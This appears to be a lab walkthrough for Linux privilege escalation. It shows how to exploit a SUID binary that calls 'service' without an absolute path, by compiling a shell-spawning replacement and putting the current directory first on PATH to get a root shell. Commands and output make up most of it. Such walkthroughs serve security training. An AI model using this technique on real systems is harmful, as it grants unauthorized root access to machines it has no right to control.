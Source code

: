 The /usr/local/bin/suid-env executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

First, execute the file and note that it seems to be trying to start the apache2 webserver:
```
/usr/local/bin/suid-env
```
```
user@debian:~$ /usr/local/bin/suid-env
[....] Starting web server: apache2httpd (pid 1646) already running
. ok 
```
Run strings on the file to look for strings of printable characters:
```
strings /usr/local/bin/suid-env
```
```
user@debian:~$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
```
One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

Compile the code located at /home/user/tools/suid/service.c into an executable called service. This code simply spawns a Bash shell:
```
gcc -o service /home/user/tools/suid/service.c
```
Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:
```
PATH=.:$PATH /usr/local/bin/suid-env
```
```
user@debian:~$ PATH=.:$PATH /usr/local/bin/suid-env
user@debian:~$ /usr/local/bin/suid-env
...
root@debian:~#
```